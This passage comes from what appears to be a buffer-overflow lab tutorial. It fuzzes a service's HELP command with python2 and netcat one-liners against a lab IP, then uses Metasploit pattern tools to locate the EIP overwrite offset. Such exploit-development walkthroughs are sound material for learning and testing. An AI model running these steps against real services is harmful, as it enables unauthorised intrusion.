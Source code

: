 But at the same time you can see EBP with `41` value and also the EBX, so now we going to make the query with more bytes of `A` and check if we can control the EIP and overwrite it.

```bash
echo $(python2 -c "print 'HELP'+'A'*100")|nc 192.168.126.36 8080
```

So now I am run the HELP command with bunch of `A` (100 for that case), then by checking the EDB I can see that the crash occur and the EIP was overwrite.

![bo-029.png](/assets/images/bo-029.png)
**Figure 29** Control the EIP.

So now we need to find the exect location of the EIP, for that case we need to run `msf-pattern_create` and make string of 100 chars:
```bash
└─$ msf-pattern_create -l 100            
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

That string should insert to our command again for crashing the app and finding the EIP location on case the input is equal 104 (100 of `A` and `HELP`). So the full command is:
```bash
echo $(python2 -c "print 'HELP'+'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'")|nc 192.168.126.36 8080
```

![bo-030.png](/assets/images/bo-030.png)
**Figure 30** Crash with the EIP value location.

So now the value of the EIP is `33634132`, then by checking is against the command `msf-pattern_offset`, we can see what is the location of the EIP and used that location on our attack. Please remember that the overflow must be 100 chars for the overflow contain the EIP controlling.
